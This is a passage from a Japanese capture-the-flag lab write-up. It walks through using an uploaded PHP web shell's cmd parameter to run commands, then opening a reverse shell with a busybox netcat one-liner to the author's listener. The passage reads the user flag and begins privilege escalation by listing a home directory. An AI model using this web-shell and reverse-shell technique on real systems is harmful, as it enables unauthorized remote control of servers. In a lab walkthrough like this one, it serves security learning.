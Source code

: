 ヒット！ `/shell.pdf.php` を発見した。

## /shell.pdf.php

http://10.10.172.28/cvs/shell.pdf.php?cmd=whoami  
を実行すると、下記が表示された。

```
www-data

boom!
```

いろいろ試したところ、busybox でリバースシェルをとれた。

```shell
busybox nc 10.2.22.182 6666 -e sh
```

http://10.10.172.28/cvs/shell.pdf.php?cmd=busybox%20nc%2010.2.22.182%206666%20-e%20sh

```shell
$ nc -nvlp 6666
listening on [any] 6666 ...
connect to [10.2.22.182] from (UNKNOWN) [10.10.172.28] 35268
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```shell
cat /home/lachlan/user.txt
thm{.........................}
```

ユーザーフラグゲット。

## 権限昇格

```shell
ls -al
total 36
drwxr-xr-x    4 lachlan  lachlan       4096 May  5  2022 .
drwxr-xr-x    3 root     root          4096 May  5  2022 ..
-rw-r--r--    1 lachlan  lachlan        168 May  5  2022 .bash_history
-rw-r--r--    1 lachlan  lachlan        220 Feb 25  2020 .bash_logout
-rw-r--r--    1 lachlan  lachlan       3771 Feb 25  2020 .bashrc
drwx------    2 lachlan  lachlan       4096 May  5  2022 .cache
-rw-r--r--    1 lachlan  lachlan        807 Feb 25  2020 .profile
drwxr-xr-x    2 lachlan  lachlan       4096 May  5  2022 bin
-rw-r--r--    1 lachlan  lachlan         38 May  5  2022 user.txt
```

```shell
ls -al bin
total 12
drwxr-xr-x    2 lachlan  lachlan       4096 May  5  2022 .
drwxr-xr-x    4 lachlan  lachlan       4096 May  5  2022 ..
-rw-r--r--    1 lachlan  lachlan         56 May  5  2022 backup.sh
```
